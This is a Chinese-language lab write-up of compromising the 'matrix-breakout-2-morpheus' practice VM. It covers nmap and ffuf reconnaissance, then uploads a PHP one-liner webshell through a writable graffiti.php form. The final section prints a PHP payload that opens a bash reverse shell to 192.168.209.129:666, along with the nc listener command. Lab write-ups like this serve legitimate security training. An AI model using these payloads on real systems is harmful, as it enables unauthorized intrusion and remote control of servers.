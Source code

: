# 724日志
[toc]
## matrix-breakout-2-morpheus综合渗透过程记录
### 0x00day
```bash
nmap -sV -T5 192.168.209.161 #服务扫描
```
扫描结果如图：
![Alt text](imags/屏幕截图%202023-07-24%20163147.png)
发现22，80，81端口
http服务浏览器进入发现一些网站
![Alt text](imags/屏幕截图%202023-07-24%20165342.png)
![Alt text](imags/屏幕截图%202023-07-24%20165513.png)
需要账户密码登录
### 0x01day
利用ffuf 查找该网站下的txt，zip，php，html文件
```bash
ffuf -u http://192.168.209.161/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c -ic -e .txt,.zip,.php,html
```
扫描结果
![as](imags/屏幕截图%202023-07-24%20171312.png)
发现了```robots.txt``` ```graffiti.txt``` ```graffiti.php```
依次查看
![da](imags/屏幕截图%202023-07-24%20171518.png)
没什么信息
![sa](imags/屏幕截图%202023-07-24%20171648.png)
有一个输入框，一会随便输入个字符
![q](imags/屏幕截图%202023-07-24%20171806.png)
暂时没什么信息。
### 0x02day
在graffiti.php发现有个输入框
输入123456
![a](imags/屏幕截图%202023-07-24%20172016.png)
发现文件内容是从```graffiti.txt```文件传过来的，说明可能有```XEE```漏洞，进行bp抓包上传一句木马。测试是否可行
![a](imags/屏幕截图%202023-07-24%20172944.png)
上传一句话木马
![](imags/屏幕截图%202023-07-24%20173059.png)
上传成功！
蚁剑进行连接！

### 0x03day
一句话木马可能权限不够可上传php的shell反弹
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.209.129/666 0>&1'"); ?> #注意如果使用bp抓包，需要进行url编码
```
kali设置端口监听
```
nc -lvvp 666
```
然后kali访问目标文件就可以了
![](imags/屏幕截图%202023-07-24%20174254.png)
获取shell
![](imags/屏幕截图%202023-07-24%20174623.png)